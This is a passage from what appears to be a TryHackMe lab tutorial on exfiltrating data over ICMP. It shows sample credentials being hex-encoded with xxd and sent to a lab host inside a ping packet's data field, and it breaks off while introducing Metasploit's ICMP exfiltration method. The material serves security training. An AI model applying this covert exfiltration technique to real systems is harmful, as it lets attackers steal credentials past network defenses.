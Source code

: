 We choose to send one ICMP packet from Host 1, our AttackBox, to Host 2, the target machine, using the-c 1 argument from the previous command. Now let's examine the ICMP packet in Wireshark and see what the Data section looks like.  

![Showing the Data Field value in Wireshark](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/3e8367a535e3f7f4076986987b9e0dcd.png)

The Wireshark screenshot shows that the Data section has been selected with random strings. It is important to note that this section could be filled with the data that needs to be transferred to another machine. 

The ping command in the Linux OS has an interesting ICMP option. With the -p argument, we can specify 16 bytes of data in hex representation to send through the packet. Note that the -p option is only available for Linux operating systems. We can confirm that by checking the ping's help manual page.

![Ping's -p argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/61d50ec683ddae6c2f52f532cc02f685.png)  

Let's say that we need to exfiltrate the following credentials thm:tryhackme. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,

Using the xxd command to convert text to Hex  

```markup
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a
```

We used the xxd command to convert our string to Hex, and then we can use the ping command with the Hex value we got from converting the thm:tryhackme.

Send Hex using the ping command.  

```markup
root@AttackBox$ ping 10.10.39.16 -c 1 -p 74686d3a7472796861636b6d650a
```

We sent one ICMP packet using the ping command with thm:tryhackme Data. Let's look at the Data section for this packet in the Wireshark.

![Checking Data Field in Wireshark](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)  

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the ping command.

## ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data. The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value. The following diagram shows the required steps for the Metasploit framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

![ICMP Data Exfiltration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)  
